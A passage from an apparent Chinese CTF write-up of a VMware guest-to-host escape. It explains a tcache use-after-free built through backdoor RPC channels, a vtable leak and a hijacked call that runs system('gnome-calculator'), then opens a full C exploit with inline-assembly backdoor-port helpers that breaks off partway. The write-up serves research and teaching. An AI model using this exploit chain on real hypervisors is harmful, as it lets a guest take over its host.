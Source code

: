 ​ 然后下一步就是与rwctf相同的思路，再次释放该堆块到tcache[0x110]头，利用 `vmx.capability.dnd_version` ，将obj申请到guestinfo.a的output缓冲区，利用obj中的vtable泄露testbase。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ac3c87b2098a2551.png)

### <a class="reference-link" name="exploit"></a>exploit

​ 利用过程同样类似，打开channel_0的用来申请一个size0的堆块，释放后用channel_1申请回来，然后channel_0再次释放，造成UAF，利用channel_1来写入数据，修改tcache的fd，造成任意地址写，channel_2申请一次，channel_3申请到伪造fd处。

​ 那么如何伪造fd。调试中发现，在 后，会 `call [r8+rax*1+0x8]` ，并且第一个参数 `rdi = [rdi+rax]` 。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0109566bd86a073154.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014e0e1cf92168f62d.png)

Rdi与r8寄存器中地址相近，rax=0，那么如果将fd伪造到r8处，在r8+8处写入system地址，rdi处写入 `gnome-calculator\x00` 即可弹出计算器。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b1eb1d7cb1667615.png)

最后效果演示：（妈妈我也会弹计算器了！）

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0161206822f4aab9fb.png)



## 完整exp

```
#include &lt;stdio.h&gt;
#include &lt;stdint.h&gt;
void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res)`{`
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x49435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
`}`

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res)`{`
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
```